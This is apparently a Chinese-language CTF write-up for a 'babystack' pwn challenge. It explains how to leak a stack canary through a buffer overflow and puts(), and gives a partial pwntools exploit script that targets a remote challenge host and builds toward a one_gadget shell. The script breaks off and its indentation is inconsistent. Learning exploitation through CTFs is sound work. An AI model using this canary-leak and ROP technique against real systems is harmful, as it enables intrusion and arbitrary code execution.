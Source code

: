 1、思路：为了绕过canary机制，我们需要先想泄露canary的值，然后利用栈溢出，把这个值放到payload中对应的位置里，这样，程序发现canary的值没变，我们就成功绕过。

通过输入1，覆盖到标志位，再输入2 把表示位puts出来.可以通过将s填充满，使puts(s)时将canary泄露出来。

已知:

①canary为防止泄露，第一位已知为'\x00'

②puts()函数输出时，遇到'\x00'才停止，即使字符串中存在'\n',也会继续输出

③read函数在读取长度限制内，能够把'\n'也读进字符串中

```python
#（0）准备（注意题目给的libc与服务器给出的libc版本不一致）
#coding=UTF-8
from pwn import * 
import sys
from time import sleep
context.log_level = "debug"
# context.terminal = ["deepin-terminal", "-x", "sh", "-c"]
#此处的exeaddr不同于以往ROPgadget找到"/bin/sh"和system函数的地址，是用onegadget直接找到execve("/bin/sh", rsp+0x30, environ)的地址，所以只需跳转到此地址即可获得shell。
#命令：one_gadget libc-2.23.so 。 OneGadget，就是直接执行 execve('/bin/sh', NULL, NULL)
    def debug():
        addr = int(raw_input("DEBUG: "), 16)
        gdb.attach(io, "b *" + str(addr))

    if sys.argv[1] == "l":
        io = process("./babystack")
        elf = ELF("./babystack")
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
        exe_addr = 0x3f2d6
    else:
        io = remote("1c6a6fb.isec.anscen.cn", 1234)
        elf = ELF("./babystack")
        libc = ELF("./libc-2.23.so")
        exe_addr = 0x45216

#（1）获取canary
 def getCanary():
        io.sendlineafter(">> ", "1")
        payload = cyclic(0x88)
        #  debug()
#发送0x88个padding加上'\n'。先发送0x88长度的字符串+'\n'，read函数会读进0x89个字节，并将canary第一个字节覆盖，之后puts便能将canary泄露出来。
        io.sendline(payload)
        io.sendlineafter(">> ", "2")
        sleep(1)
        io.recvuntil("\n")
        sleep(1)
        canary = u64("\x00" + io.recv(7))
        #  print hex(canary)
        log.debug("leaked canary -> 0x%x" % canary)
        return canary

#（2）获得链接库地址偏移(题目已知libc的情况,libc开启了PIE)
def getBase(canary):
        read_got = elf.got["read"]
        read_plt = elf.plt["read"]
        puts_plt = elf.plt["puts"]
        #  start_plt = elf.symbols["start"]
        #  start_plt = 0x400720
        start_plt = 0x400908
        pop_rdi_ret = 0x0000000000400a93
        pop_rsi_r15_ret = 0x0000000000400a91
        io.sendlineafter(">> ", "1")
        #  log.info("------------------")
```